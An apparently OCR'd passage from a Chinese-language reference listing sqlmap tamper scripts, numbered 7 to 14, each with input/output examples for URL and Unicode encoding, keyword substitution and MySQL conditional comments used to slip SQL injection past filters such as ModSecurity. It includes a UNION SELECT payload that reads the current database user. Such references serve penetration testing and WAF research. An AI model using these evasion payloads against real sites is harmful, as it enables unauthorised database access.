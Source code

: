     (7) chardoubleencode.py 双重url编码 
    Example: 
    Input: SELECT FIELD FROM%20TABLE 
    Output: %2553%2545%254c%2545%2543%2554%2520%2546%2549%2545%254c%2544%2520%2546%2552%254f%254d%2520%2554%2541%2542%254c%2545

    (8) charencode.py url编码 
    Example: 
    Input: SELECT FIELD FROM%20TABLE 
    Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45

    (9) charunicodeencode.py 对未进行url编码的字符进行unicode编码 
    Example: 
    Input: SELECT FIELD%20FROM TABLE 
    Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045'
    Requirement: 
    ASP 
    ASP.NET 

    (10) equaltolike.py 以”like”替代”=“ 
    Example: 
    Input: SELECT FROM users WHERE id=1 
    Output: SELECT FROM users WHERE id LIKE 1 

    (11) halfversionedmorekeywords.py在每个关键字前添加条件注释 
    Example: 
    Input: value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa 
    Output: value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND 'QDWa'='QDWa 
    Requirement: 
    MySQL < 5.1 

    (12) ifnull2ifisnull.py 以”IF(ISNULL(A), B, A)”替换”IFNULL(A, B)” 
    Example: 
    Input: IFNULL(1, 2) 
    Output: IF(ISNULL(1), 2, 1) 
    Requirement: 
    MySQL 
    SQLite (possibly) 
    SAP MaxDB (possibly) 

    (13) modsecurityversioned.py 条件注释 
    Example: 
    Input: 1 AND 2>1-- 
    Output: 1 /*!30000AND 2>1*/-- 
    Requirement: 
    MySQL 

    (14) modsecurityzeroversioned.py 条件注释，0000 
    Example: 
    Input: 1 AND 2>1-- 
    Output: 1 /*!00000AND 2>1*/-- 
    Requirement: 
    MySQL 
